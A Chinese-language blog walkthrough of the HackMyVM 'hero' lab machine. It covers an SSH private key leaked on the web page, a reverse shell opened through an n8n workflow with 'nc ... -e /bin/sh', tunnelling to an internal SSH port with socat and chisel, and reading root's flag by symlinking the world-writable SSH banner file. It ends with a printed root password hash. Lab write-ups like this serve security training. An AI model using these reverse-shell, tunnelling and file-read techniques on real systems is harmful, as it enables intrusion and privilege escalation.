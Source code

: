 ```yaml
---
{"dg-publish":true,"title":"hackmyvm_hero","tags":["blog"],"dg-path":"安全/靶机/hackmyvm_hero.md","permalink":"/安全/靶机/hackmyvm_hero/","dgPassFrontmatter":true}
---
```


```table-of-contents
```
# 主机发现

```sh
┌──(root㉿kali)-[~/.ssh]
└─# nmap -sT -min-rate 5000 -p- 192.168.124.29
Starting Nmap 7.95 ( https://nmap.org ) at 2025-02-07 09:13 EST
Nmap scan report for 192.168.124.29 (192.168.124.29)
Host is up (0.12s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT     STATE SERVICE
80/tcp   open  http
5678/tcp open  rrac
MAC Address: 08:00:27:1B:51:C7 (PCS Systemtechnik/Oracle VirtualBox virtual NIC)

Nmap done: 1 IP address (1 host up) scanned in 23.73 seconds

```



# web渗透

80端口目录扫描啥也没扫出来

```sh
┌──(root㉿kali)-[~]
└─# curl 192.168.124.29
-----BEGIN OPENSSH PRIVATE KEY-----
b3BlbnNzaC1rZXktdjEAAAAABG5vbmUAAAAEbm9uZQAAAAAAAAABAAAAMwAAAAtzc2gtZW
QyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwgAAAJAczctSHM3L
UgAAAAtzc2gtZWQyNTUxOQAAACComGN9cfmTL7x35hlgu2RO+QW3WwCmBLSF++ZOgi9uwg
AAAEAnYotUqBFoopjEVz9Sa9viQ8AhNVTx0K19TC7YQyfwAqiYY31x+ZMvvHfmGWC7ZE75
BbdbAKYEtIX75k6CL27CAAAACnNoYXdhQGhlcm8BAgM=
-----END OPENSSH PRIVATE KEY-----

```

首页信息像是一个私钥，但是主机也没开ssh

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh-keygen -y -f id2
ssh-ed25519 AAAAC3NzaC1lZDI1NTE5AAAAIKiYY31x+ZMvvHfmGWC7ZE75BbdbAKYEtIX75k6CL27C shawa@hero
```



看一下这个5678端口
运行的是一个N8N 的服务
https://github.com/n8n-io/n8n

---
在 Overview 里面找到 Credentials ，新增 shawa 账号和刚才的 key 。  
IP 注意不能是 localhost 或者 127.0.0.1 ，因为是 Docker 里。
提示你 Connection tested successfully 就行了。
在 Workflow 里面创建一个 Workflow ，弄个手动的 Trigger。 第二个节点选 SSH 
就可以 Test 命令了。

---

这里是大佬给的思路

我在配置凭证的时候一直不成功，然后重装了一遍靶机就好了
![NB`YJYSETZMO%J2(DIJUUJ.png](/img/user/picture/NB%60YJYSETZMO%25J2(DIJUUJ.png)


![Pasted image 20250208092934.png](/img/user/picture/Pasted%20image%2020250208092934.png)
这里就可以尝试进行反弹shell

![Pasted image 20250208093103.png](/img/user/picture/Pasted%20image%2020250208093103.png)
```
 nc 192.168.124.27 8080 -e /bin/sh
```

![Pasted image 20250208093248.png](/img/user/picture/Pasted%20image%2020250208093248.png)

这里尝试取获得一个稳定的shell一直失败


```sh
netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
...
2: eth0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc pfifo_fast state UP qlen 1000
...
3: docker0: <BROADCAST,MULTICAST,UP,LOWER_UP> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:f5:e3:e5:c6 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.1/16 brd 172.17.255.255 scope global docker0
       valid_lft forever preferred_lft forever
    inet6 fe80::42:f5ff:fee3:e5c6/64 scope link
       valid_lft forever preferred_lft forever

```

注意到第三行是172.17.0.1:22，监听在特定IPv4地址的22端口。22是SSH端口，但这里的本地地址是172.17.0.1，这通常是Docker或其他容器网络的网关地址。可能主机上的SSH服务只绑定在这个内部地址，而不是0.0.0.0，这样外部网络可能无法通过SSH连接

所以我们尝试将这个转发出去
这里分享一下工具链接
https://github.com/ernw/static-toolbox/releases/tag/socat-v1.7.4.4

```sh
./socat TCP-LISTEN:2222,fork TCP4:172.17.0.1:22 &

netstat -lntup
Active Internet connections (only servers)
Proto Recv-Q Send-Q Local Address           Foreign Address         State       PID/Program name
tcp        0      0 0.0.0.0:80              0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:5678            0.0.0.0:*               LISTEN      -
tcp        0      0 0.0.0.0:2222            0.0.0.0:*               LISTEN      2949/socat
tcp        0      0 172.17.0.1:22           0.0.0.0:*               LISTEN      -
tcp        0      0 :::80                   :::*                    LISTEN      -
tcp        0      0 :::5678                 :::*                    LISTEN      -

```

用私钥连接就可以了

```sh
ssh -i id2 -p 2222 shawa@192.168.124.30

...

hero:~$ ls
user.txt
hero:~$ cat user.txt
HMVOHIMNOTREAL
```




# 提权

sudo和suid都没什么东西

发现在ssh配置文件中设置了banner
```txt
# no default banner path
Banner /opt/banner.txt
```

```sh
hero:~$ cat /opt/banner.txt
shawa was here.
hero:~$ ls -l /opt/banner.txt
-rw-rw-rw-    1 root     root            16 Feb  6 10:09 /opt/banner.txt
```

```sh
hero:~$ ls -l /
total 65
...
drw-rw-rwx    3 root     root          4096 Feb  6 10:14 opt
...
```
发现opt目录我们是有操作权限的
所以我们就可以实现任意文件读取


```sh
hero:/opt$ rm banner.txt
hero:/opt$ ls
containerd
hero:/opt$ ln -sv /root/root.txt banner.txt
'banner.txt' -> '/root/root.txt'
hero:/opt$ ls -al
total 12
drw-rw-rwx    3 root     root          4096 Feb  8 02:38 .
drwxr-xr-x   21 root     root          4096 Feb  6 10:03 ..
lrwxrwxrwx    1 shawa    shawa           14 Feb  8 02:38 banner.txt -> /root/root.txt
drwx--x--x    4 root     root          4096 Feb  6 10:14 containerd
hero:/opt$ ssh root@localhost -p 2222
The authenticity of host '[localhost]:2222 ([127.0.0.1]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This key is not known by any other names.
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[localhost]:2222' (ED25519) to the list of known hosts.
HMVNOTINPRODLOL
root@localhost's password:

```
得到flag
```txt
HMVNOTINPRODLOL
```


# 补

如果一开始是使用的Execute Command这个模块进行的反弹shell
那么是不需要配置凭证的，但是获得的shell是在dockers中
```sh
┌──(root㉿kali)-[~]
└─# nc -lvnp 8080
listening on [any] 8080 ...
connect to [192.168.124.27] from (UNKNOWN) [192.168.124.30] 33421
id
uid=1000(node) gid=1000(node) groups=1000(node)
ip a
1: lo: <LOOPBACK,UP,LOWER_UP> mtu 65536 qdisc noqueue state UNKNOWN qlen 1000
    link/loopback 00:00:00:00:00:00 brd 00:00:00:00:00:00
    inet 127.0.0.1/8 scope host lo
       valid_lft forever preferred_lft forever
    inet6 ::1/128 scope host
       valid_lft forever preferred_lft forever
4: eth0@if5: <BROADCAST,MULTICAST,UP,LOWER_UP,M-DOWN> mtu 1500 qdisc noqueue state UP
    link/ether 02:42:ac:11:00:02 brd ff:ff:ff:ff:ff:ff
    inet 172.17.0.2/16 brd 172.17.255.255 scope global eth0
       valid_lft forever preferred_lft forever
```

首先把chishel工具上传上去
https://github.com/jpillora/chisel/releases

首先在本机执行：
```sh
┌──(root㉿kali)-[~/sharedir]
└─# ./chisel server -p 2025 --reverse
2025/02/08 05:08:01 server: Reverse tunnelling enabled
2025/02/08 05:08:01 server: Fingerprint g2Y54AZXMGOk5s+SFgpOtrSCfUOQ383VgB0MXoeNlRk=
2025/02/08 05:08:01 server: Listening on http://0.0.0.0:2025

```



在靶机中执行：
```sh
./chisel client 192.168.124.27:2025 R:2222:172.17.0.1:22 &
```

出现这个提示
![Pasted image 20250208181230.png](/img/user/picture/Pasted%20image%2020250208181230.png)

```sh
┌──(root㉿kali)-[~/workspace/pentest/hero]
└─# ssh -i id2 -p 2222 shawa@192.168.124.27
The authenticity of host '[192.168.124.27]:2222 ([192.168.124.27]:2222)' can't be established.
ED25519 key fingerprint is SHA256:EBZrmf2l6+BtffXHAEtSx6Suq5Wf09yzZlVqbQaGOVM.
This host key is known by the following other names/addresses:
    ~/.ssh/known_hosts:4: [hashed name]
Are you sure you want to continue connecting (yes/no/[fingerprint])? yes
Warning: Permanently added '[192.168.124.27]:2222' (ED25519) to the list of known hosts.
//这里会显示banner内容
Welcome to Alpine!

The Alpine Wiki contains a large amount of how-to guides and general
information about administrating Alpine systems.
See <https://wiki.alpinelinux.org/>.

You can setup the system with the command: setup-alpine

You may change this message by editing /etc/motd.

hero:~$id
uid=1000(shawa) gid=1000(shawa) groups=1000(shawa)

```


```txt
root:$6$WBuW3zyLro0fagui$gq9zWbt3gEpo26gkIjtgjYZqjCJtjJrJO9EHaWkglVZWwWhQiiSNmMGejRn.Q58Z9knsWP59OQqLPgt2NAWd80:20125:0:::::


root:x:0:0:root:/root:/bin/sh
```












